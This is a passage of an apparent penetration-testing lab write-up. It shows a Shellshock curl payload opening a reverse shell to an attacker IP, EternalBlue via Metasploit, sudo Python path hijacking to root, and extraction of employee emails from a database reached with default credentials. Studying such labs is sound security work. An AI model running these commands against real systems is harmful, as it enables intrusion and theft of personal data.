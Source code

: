 ```bash
Password: postgres
psql (13.7, server 9.5.24)
postgres=# \l
# Successfully connected with default credentials
```

**Phase 3: Successful Exploitation**
```bash
# Shellshock exploitation
$ curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'" http://10.10.10.5/cgi-bin/test.cgi &

# Received reverse shell
$ nc -nlvp 4444
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.5] 45678
www-data@webserver:/usr/lib/cgi-bin$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

# EternalBlue exploitation via Metasploit
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.15
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
[*] Meterpreter session 1 opened
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

**Phase 4: Post-Exploitation Results**
```bash
# Privilege escalation on web server
www-data@webserver:/$ sudo -l
User www-data may run the following commands:
    (ALL : ALL) NOPASSWD: /usr/bin/python3 /opt/backup/backup.py

# Python path hijacking
www-data@webserver:/$ echo 'import os; os.system("/bin/bash")' > /tmp/os.py
www-data@webserver:/$ sudo /usr/bin/python3 /opt/backup/backup.py
root@webserver:/# id
uid=0(root) gid=0(root) groups=0(root)

# Data extraction from database
postgres=# SELECT username, email FROM employees LIMIT 5;
 username |       email        
----------+--------------------
 jdoe     | jdoe@techcorp.com  
 asmith   | asmith@techcorp.com
 mjones   | mjones@techcorp.com
 bwilson  | bwilson@techcorp.com
 kbrown   | kbrown@techcorp.com
(5 rows)
```

### Lab Results Summary
